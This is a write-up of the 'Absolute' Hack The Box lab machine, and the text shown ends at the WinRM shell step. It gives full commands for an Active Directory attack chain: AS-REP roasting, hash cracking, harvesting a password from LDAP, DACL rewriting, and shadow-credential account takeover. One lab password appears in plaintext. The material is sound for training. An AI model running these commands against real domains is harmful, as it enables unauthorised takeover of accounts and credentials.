This box is rated insane difficulty on HTB. It involves us creating a username wordlist via image metadata pulled from a website which is used to AS-REP Roast accounts. Following this foothold on the domain, enumerating LDAP attributes grants us a service account's password which can be used to access a non-standard SMB share. Inside is a Nim executable, which rewards us with user credentials from an outbound LDAP bind through dynamic binary analysis. This user owns a Network Audit group that has GenericWrite over another service account, which can be abused to add a Shadow Credential and get a shell on the system. Finally, we abuse Kerberos relaying to get the Domain Controller's machine account hash and perform a DCSync attack, therefore giving us full domain privileges.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services; Repeating the same for UDP shows the typical AD ports.

```
└─$ sudo nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV 10.129.232.60 -oN fullscan-tcp 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-12 03:50 -0400
Nmap scan report for 10.129.232.60
Host is up (0.053s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Absolute
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-12 14:50:37Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2025-04-23T18:13:50
|_Not valid after:  2026-04-23T18:13:50
|_ssl-date: 2026-05-12T14:51:27+00:00; +6h59m57s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2025-04-23T18:13:50
|_Not valid after:  2026-04-23T18:13:50
|_ssl-date: 2026-05-12T14:51:27+00:00; +6h59m57s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2025-04-23T18:13:50
|_Not valid after:  2026-04-23T18:13:50
|_ssl-date: 2026-05-12T14:51:27+00:00; +6h59m57s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-12T14:51:27+00:00; +6h59m57s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2025-04-23T18:13:50
|_Not valid after:  2026-04-23T18:13:50
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m56s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-05-12T14:51:19
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.20 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC.ABSOLUTE.HTB` which I add to my `/etc/hosts` file. There are quite a few ports open, so I'll mainly focus on SMB, LDAP, and HTTP to gather information initially. Since there's a web server up and running, I fire up a few Ffuf scans to search for subdirectories and subdomains in the background.

## Service Enumeration
Testing SMB and RPC for Null/Guest authentication both fail and LDAP doesn't allow for anonymous binds, really just leaving us with the web server to poke around.

```
└─$ nxc smb dc.absolute.htb -u 'Guest' -p '' --shares

└─$ rpcclient dc.absolute.htb -U ''%''

└─$ ldapsearch -x -H ldap://dc.absolute.htb -b "dc=ABSOLUTE,dc=HTB" -s base "(objectClass=user)"
```



Checking out the landing page on port 80 shows the company's website with a slideshow displaying their work. There's not a whole lot on this page and the only link goes to a legitimate site hosting free templates. 



### Usernames via Image Metadata
Because the text exclaims that the images are actually their work, I download them for closer inspection, hoping to at least find something interesting in the metadata. We can find the full URL for each image in the page's source code as well.

```
└─$ curl http://dc.absolute.htb/images/hero_1.jpg -o image_1.jpg

└─$ curl http://dc.absolute.htb/images/hero_2.jpg -o image_2.jpg

└─$ curl http://dc.absolute.htb/images/hero_3.jpg -o image_3.jpg

└─$ curl http://dc.absolute.htb/images/hero_4.jpg -o image_4.jpg

└─$ curl http://dc.absolute.htb/images/hero_5.jpg -o image_5.jpg

└─$ curl http://dc.absolute.htb/images/hero_6.jpg -o image_6.jpg
```

Using exiftool on each file prints a ton of data, however the only thing that stood out to me is the Author field, which gives us a few names to work with. I'll extract them with some Bash Fu and then use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to create a viable wordlist to test against the Domain.

```
└─$ exiftool *.jpg | grep -i Author | awk '{print $3,$4}' > users.txt
```



```
└─$ ./username-anarchy -i users.txt
```



## Exploitation

### AS-REP Roasting
With a potential wordlist for domain users in hand, I'll use Kerbrute next to test each one to enumerate the valid user format and see if any are AS-REP Roastable.

```
└─$ ./kerbrute userenum --domain absolute.htb potentialUsernames.txt --dc dc.absolute.htb
```



Looks like we need our username formats to be first initial + lastname. Now I'll use Impackets' [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to test if any of these accounts have Kerberos pre-authentication disabled and allow us to grab hashes.

In case you're unfamiliar with this technique, AS-REP Roasting is a credential attack that targets user accounts configured with Kerberos pre-authentication disabled, allowing an attacker to request an authentication response from the domain controller without knowing the user's password. The returned Kerberos AS-REP contains data encrypted with the user's password-derived key, which can be cracked offline to recover the plaintext credentials.

```
└─$ impacket-GetNPUsers -usersfile validUsers.txt -no-pass -dc-ip 10.129.232.60 absolute.htb/
```



This results in just one **KRB5ASREP** hash for the _D.Klay_ user. Upon being sent over to Hashcat or JohnTheRipper, it cracks within a reasonable time and gives us valid domain credentials.

```
└─$ john hash --wordlist=/opt/seclists/rockyou.txt
```



Attempting to use these over SMB procs an error saying that the user has an account restriction. This typically means that NTLM authentication has been disabled for the domain, which can be circumvented by swapping to Kerberos auth.

Because we're dealing with Kerberos here, I sync my machine's time with the Domain Controller's to prevent any clock skew errors from arising. VMWare likes to override my time configurations, so I usually just stop both time-related daemons whenever doing these types of exploits.

```
# Stopping my machine's timsyncd processes
└─$ sudo systemctl stop systemd-timesyncd
└─$ sudo systemctl disable systemd-timesyncd
└─$ sudo systemctl stop chronyd 2>/dev/null
└─$ sudo systemctl disable chronyd 2>/dev/null

# Set Clock skew to match the DC's
└─$ sudo rdate -n dc.absolute.htb
```

Retrying to enumerate SMB shares reveals one non-standard folder that we don't have access to.

```
└─$ nxc smb dc.absolute.htb -u 'd.klay' -p '[REDACTED]' -k --shares
```



Now that we have creds, I brute-force RIDs to find discover more users on the domain which can assist us in later attacks. Once again we can extract the account names from the output with a few `awk` commands.

```
└─$ nxc smb dc.absolute.htb -u 'd.klay' -p '[REDACTED]' -k --rid-brute 4000 > moreNames.txt

└─$ cat moreNames.txt | awk -F'\\' '{print $2}' | awk '{print $1}' > domainNames.txt
```



After cleaning up the file and getting rid of the group names, we discover a few hidden entries for the SMB and Audit service accounts, as well as a WinRM user. I keep the ladder one in mind as we can infer that it has access to grab a shell over WinRM, therefore giving us a foothold on the machine.

### Creds in LDAP Attribute 
Both Kerberoasting/AS-REP Roasting and spraying the previous password against all accounts found so far returns nothing, so I dig into any interesting attributes they may have over LDAP.

```
└─$ nxc ldap dc.absolute.htb -u 'd.klay' -p '[REDACTED]' -k --query "(samAccountName=svc_smb)" ""
```



The only thing discovered was a string under the _svc_smb_ account's description which looks to be a password. Checking to see if it works over SMB succeeds and we find that we're now able to read the share

```
└─$ nxc smb dc.absolute.htb -u 'svc_smb' -p '[REDACTED]' -k --shares
```



### Dynamic Binary Analysis
We can use Impacket's [smbclient.py](/home/kali/.nxc/modules/nxc_spider_plus) script to connect, seeing as we require Kerberos authentication.

```
└─$ impacket-smbclient absolute.htb/'svc_smb':'[REDACTED]'@dc.absolute.htb -k -no-pass
```



Inside, we find a test executable along with a compiler script for it. Looking at what it does shows that it uses MinGW to cross-compile a Nim executable from Linux to Windows.

```
└─$ cat compiler.sh         
#!/bin/bash

nim c -d:mingw --app:gui --cc:gcc -d:danger -d:strip $1
```

At this point, I swap over to my Windows VM in order to perform some dynamic binary analysis, specifically looking for any outbound requests. Spinning up Wireshark and executing the binary shows that the program attempt to make an LDAP bind to `absolute.htb` as the _M.Lovegod_ user and provides a password using simple authentication. 



## Initial Foothold

### Mapping Domain with  BloodHound
Confirming that these credentials work shows that we can't quite get a shell yet, however seeing as we can bind to LDAP, I fire up BloodHound to map the domain as well as any permission we may have.

```
└─$ nxc ldap dc.absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k

└─$ bloodhound-python -c all -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -d absolute.htb -ns 10.129.232.60

└─$ sudo bloodhound
```



After letting those JSON files digest for a bit and checking which outbound object permissions our new user has, we find that _M.Lovegod_ owns the Network Audit group which has GenericWrite over the _winrm_user_ account.



Because our current user has ownership of the Audit group, we can write malicious DACLs in order to grant ourselves FullControl over it and then add ourselves. Once we have obtained group membership, our new GenericWrite permissions will let take over the _winrm_user_ and give us shell access on the DC.

### Setting Necessary Permissions
Before getting ahead of myself, I do some Kerberos configuration on my local machine so that our tools will work fine. If you don't have access to the `kinit` or `klist` commands, we can install them with `sudo apt install krb5-user -y` on Debian machines

```
└─$ nxc smb dc.absolute.htb --generate-krb5-file krb5.conf                                                                                         
SMB         10.129.232.60   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                                                       
SMB         10.129.232.60   445    DC               [+] krb5 conf saved to: krb5.conf
SMB         10.129.232.60   445    DC               [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
                                                                                                                                                                          
└─$ export KRB5_CONFIG=krb5.conf

└─$ kinit m.lovegod
Password for m.lovegod@ABSOLUTE.HTB:

└─$ klist          
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: m.lovegod@ABSOLUTE.HTB

Valid starting       Expires              Service principal
05/13/2026 00:10:55  05/13/2026 04:10:55  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
        renew until 05/13/2026 04:10:55
```

I'll start by granting ourselves AddMember permissions via Impacket's [dacledit.py](https://github.com/fortra/impacket/blob/master/examples/dacledit.py) script so that we can then be added to the Audit group.

```
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'm.lovegod' -target-dn 'CN=NETWORK AUDIT,CN=USERS,DC=ABSOLUTE,DC=HTB' -k 'absolute.htb'/'m.lovegod':'AbsoluteLDAP2022!' -dc-ip 10.129.232.60
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] DACL backed up to dacledit-20260513-000800.bak
[*] DACL modified successfully!
```

Next, we can use Samba's net toolkit to add ourselves to the Audit group. Note that there are cleanup scripts in place to revert any changes made to the domain, so if something stops working, rerun the previous commands. If you are getting an error regarding insufficient permissions, update your TGT and it will resolve all issues here.

```
└─$ net rpc group addmem 'Network Audit' 'm.lovegod' -U 'm.lovegod' -S 'dc.absolute.htb' --use-kerberos=required 
Password for [WORKGROUP\m.lovegod]:

└─$ net rpc group members 'Network Audit' -U 'm.lovegod' -S 'dc.absolute.htb' --use-kerberos=required
Password for [WORKGROUP\m.lovegod]:
absolute\m.lovegod
absolute\svc_audit
```



### Shadow Credentials
Next, I want to take over the _winrm_user_ account by abusing our GenericWrite permissions. We have two main routes to go about here:

**Shadow credentials:**
- Abuse the `msDS-KeyCredentialLink` attribute to add an attacker-controlled key to a target account, allowing certificate-based authentication as that user. This lets an attacker obtain a TGT without knowing the password and impersonate the account. With GenericWrite, an attacker can modify this attribute on a target object, enabling them to plant their own key and take over the account.

**Targeted Kerberoasting:**
- Involves assigning a Service Principal Name (SPN) to a user account so a Kerberos service ticket can be requested and cracked offline. This works even if the account didn't originally have an SPN. With GenericWrite, an attacker can set or modify the SPN on a target account, making it Kerberoastable and exposing its password hash for offline cracking.

I'll go with the former, since cracking a hash isn't guaranteed and this way is a bit more stealthy. There are plenty of tools out there, but I usually default to [Certipy-AD](https://github.com/ly4k/Certipy) since it takes care of all the necessary steps for us.

```
└─$ impacket-getTGT absolute.htb/m.lovegod:'AbsoluteLDAP2022!' -dc-ip 10.129.33.160

└─$ export KRB5CCNAME=m.lovegod.ccache

└─$ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.33.160 -target dc.absolute.htb -account winrm_user
```



_Note: It seems that this box's old certificate is broken and results in an error saying that the KDC does not support PADATA. We can fix this by using the Administrator's hash to get an interactive shell and use the `gpupdate /force` command to fix this issue. In theory, we could also utilize a certificate created from a tool like [pywhisker](https://github.com/ShutdownRepo/pywhisker) in a Pass-The-Cert attack, however I want to keep with the spirit of how the challenge was meant to be solved. Skip to the end of this writeup in order to grab the login command for it :)_

Although it gives us the NTLM hash, we'll still have to use the .ccache file in order to authenticate and grab a shell over WinRM. 

```
└─$ KRB5CCNAME=winrm_user.ccache

└─$ evil-winrm -i dc.absolute.htb -r absolute.htb
```

